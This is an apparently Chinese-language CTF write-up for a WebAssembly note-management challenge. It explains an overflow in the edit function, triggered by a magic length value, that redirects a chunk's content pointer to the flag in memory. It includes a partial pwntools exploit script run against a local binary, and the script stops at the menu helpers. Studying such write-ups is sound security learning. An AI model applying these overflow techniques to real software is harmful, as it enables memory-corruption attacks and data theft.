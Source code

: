 ![Untitled](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111748.png)

function 9里面调用了function 56read函数，进行逐个字节读入。

![Untitled](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111749.png)

![Untitled](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111750.png)

在edit函数中存在一个明显的漏洞函数，当输入的length为0x345231时，我们可以读入0x30 字节。

![Untitled](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111751.png)

程序开始时会读入flag ，位于我们创建的note struct 上方，因此，我们可以利用edit 的溢出，更改下一个chunk 的content 偏移，让它指向flag的位置，从而打印出flag。

![Untitled](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111752.png)

```python
from pwn import*
context.log_level='debug'
context.arch='amd64'
#p=process("./launch.sh")
p=process(['./wasmtime','run','--env', "FLAG=flag{you_cat_the_flag}",'--disable-cache','--allow-precompiled','./wtoa'])

def mydbg():
	gdb.attach(p)
	pause()

s = lambda data : p.send(data)
sl = lambda data : p.sendline(data)
sa = lambda text, data : p.sendafter(text, data)
sla = lambda text, data : p.sendlineafter(text, data)
r = lambda : p.recv()
rn = lambda x  : p.recvn(x)
ru = lambda text : p.recvuntil(text)
dbg = lambda text=None  : gdb.attach(p, text)
uu32 = lambda : u32(p.recvuntil(b"\xff")[-4:].ljust(4, b'\x00'))
uu64 = lambda : u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
pr = lambda s : print('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))

def menu(choice):
	ru("Choice > ")
	sl(choice)

def add(size,content):
	menu("A")
	ru("size > ")
	sl(str(size))
	ru("> ")
	s(content)
def edit(index,offset,length,content):
	menu("E")
	ru("index >")
	sl(str(index))
	ru("offset >")
	sl(str(offset))
	ru("length > ")
	sl(str(length))
	ru("> ")
	s(content)

def delete(index):
	menu("D")
```